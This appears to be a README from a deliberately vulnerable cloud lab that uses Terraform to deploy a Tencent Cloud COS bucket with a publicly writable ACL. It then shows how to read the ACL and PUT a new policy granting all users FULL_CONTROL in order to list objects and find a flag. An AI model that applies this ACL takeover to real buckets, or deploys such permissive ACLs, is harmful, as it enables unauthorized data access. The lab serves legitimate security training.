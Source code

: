 # Tencent Cloud COS Bucket ACL writable vulnerability environment

English | [中文](./README_CN.md)

## Description

This is the scenario in which the Tencent Cloud COS bucket ACL is writable.

After you build an environment using Terraform, users can access COS resources that are otherwise unreadable by modifying the Bucket ACL policy.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/tencentcloud/cos/bucket_acl_writable/
```

Edit the `terraform.tfvars` file and write your `tencentcloud_secret_id`and`tencentcloud_secret_key` in the file

```shell
vim terraform.tfvars
```

> * You can create and view your SecretKey on the [API Key Management](https://console.cloud.tencent.com/cam/capi) of the Tencent Cloud console

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After the environment is set up, you can see the created Bucket at Outputs.

This Bucket has Bucket ACL read and write permissions.

## Vulnerability Utilization

List Object, return access denied

![image](../../../images/1652347780.png)

Attempt to read the Bucket's ACL policy

```shell
https://houxianxxxxx-1234567890.cos.ap-beijing.myqcloud.com/?acl
```

![image](../../../images/1652347858.png)

Try to use the PUT method to modify the ACL policy of the Bucket.

The original ACL policy:

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

New ACL Policy:

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```

![image](../../../images/1652348202.png)

Try traversing the Object again, you can see that it can be traversed already, which means that the ACL policy just uploaded is in effect.

In the response message, you can see the flag.

![image](../../../images/1652348264.png)

## Destroy the environment

```shell
terraform destroy
```
